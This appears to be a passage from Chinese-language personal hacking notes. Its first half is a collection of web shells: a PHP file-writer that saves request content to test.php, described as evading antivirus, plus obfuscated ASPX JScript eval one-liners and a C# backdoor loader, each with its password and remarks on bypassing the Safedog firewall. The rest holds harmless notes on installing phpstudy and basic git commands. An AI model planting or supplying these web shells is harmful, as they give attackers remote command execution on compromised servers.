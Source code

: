    <?php
   $file = fopen("test.php","w");
   fwrite($file,$_REQUEST[cmd]);
   fclose($file);
   ?>
   该版本不被查杀,且比上面一个更安全


   aspx:
   ASPX一句话的过安全狗效果不怎么样,不过我认为能支持aspx百分之8/90支持asp
   <%@PageLanguage=Jscript%>      
   <%var/*-/*-*/P/*-/*-*/=/*-/*-*/"e"+"v"+/*-/*-*/
   "a"+"l"+"("+"R"+"e"+/*-/*-*/"q"+"u"+"e"/*-/*-*/+"s"+"t"+      
   "[/*-/*-*/0/*-/*-*/-/*-/*-*/2/*-/*-*/-/*-/*-*/5/*-/*-*/]"+      
   ","+"\""+"u"+"n"+"s"/*-/*-*/+"a"+"f"+"e"+"\""+")";eval      
   (/*-/*-*/P/*-/*-*/,/*-/*-*/"u"+"n"+"s"/*-/*-*/+"a"+"f"+"e"/*-/*-*/);%>  密码 -7
    
    
   <%@PageLanguage="Jscript"%><%eval(Request.Item["shezhang"],"unsafe");%>

    
    
   <scriptlanguage="C#"runat="server">      
   WebAdmin2Y.x.yaaaaa=newWebAdmin2Y.x.y("add6bb58e139be10");      
   </script>                              密码是webadmin

   aspx隐藏一句话新:
   http://z-cg.com/?mod=pad&act=view&id=10
   (<%WebServices.ShowRunnerVersion();%>,<%WebServices.InitializeWebServices("fuck");%>)

32.phpstudy for linux:
  wget -c http://lamp.phpstudy.net/phpstudy.bin
  chmod +x phpstudy.bin
  # 权限设置
  ./phpstudy.bin     #运行安装
      php版本切换也是用这个命令,选择mysql不安装

  服务进程管理:phpstudy (start|stop|restart|uninstall)
  站点主机管理:phpstudy (add|del|list)
  ftpd用户管理:phpstudy ftp (add|del|list)

33.strem:http://www.yxbao.com/bd/27803.html#goDown

34.linux的git使用:
  http://www.linuxidc.com/Linux/2014-02/96989.htm
  完成密钥的设置后:
  git init
  git add .
  git commit -a -m "xxx"<没有这一步会显示error>
  git remote add origin url
  git push -u origin master

  更新部分文件时,提交更新:
  git add file(changed file or new file,the command 'git add' means add file to local git repositories)
  git status(check is the file status is ok)
  git commit -a -m "something"(without commit command can not update the file,this is a 'must')
  git push -u origin master
